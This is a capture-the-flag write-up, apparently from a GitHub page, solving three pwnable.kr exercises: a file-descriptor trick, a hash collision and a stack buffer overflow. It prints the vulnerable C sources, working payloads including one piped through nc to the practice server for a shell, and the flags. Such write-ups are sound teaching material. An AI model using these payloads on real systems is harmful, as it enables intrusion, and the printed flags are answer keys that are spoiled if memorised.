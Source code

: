 # fd

`fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ``./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'``

flag: `daddy! I just managed to create a hash collision :)`

# bof

`bof.c`:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Classic buffer overflow question. In the assembly we see that `$ebp-0x2c` is set for the buffer, and it checks if `$ebp + 0x8 == 0xcafebabe`. So we input 52 A's, then 0xcafebabe (in little endian, so "backwards"). 

We accomplish this with the following payload: `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`. However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing at the end of the `func` function. Because of this, we modify our payload: `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat)`. 

We now run `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000`, see that we do indeed have a shell, then run `ls`, see the flag file, and then run `cat flag` to get our flag.

flag: `daddy, I just pwned a buFFer :)`





